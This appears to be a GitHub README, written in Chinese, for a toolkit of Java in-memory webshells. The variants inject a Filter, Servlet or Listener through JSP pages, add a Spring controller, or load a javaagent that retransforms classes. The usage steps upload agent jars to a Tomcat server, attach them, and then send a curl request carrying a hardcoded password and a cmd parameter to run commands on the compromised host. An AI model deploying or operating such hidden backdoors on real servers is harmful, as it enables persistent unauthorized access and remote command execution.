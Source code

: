 # JAVA_memshells
java 内存马系列 实现（Servlets 、组件、Agent）

# java 内存马实现落地
## 1、基于动态添加Servlets组件(Listener、Servlet、Filter)
addfilter.jsp
addHttpServlet.jsp
addServlet.jsp
addListerner.jsp
## 2、基于框架组件，Spring的Controller

## 3、基于javaagent技术运行时加载，instrumentation的redefinessClass和retransformClass来实现对类的重加载或重构
inst.redefinessClass 
inst.retransformClass
### 使用方法
1、Tomcat的根目录中上传：Agent-1.0-SNAPSHOT-jar-with-dependencies.jar、Attach-1.0-SNAPSHOT-jar-with-dependencies.jar
2、java -jar Attach-1.0-SNAPSHOT-jar-with-dependencies.jar
3、curl http://tomcat:port/anypath?passwod=ga0weI&cmd={xx}

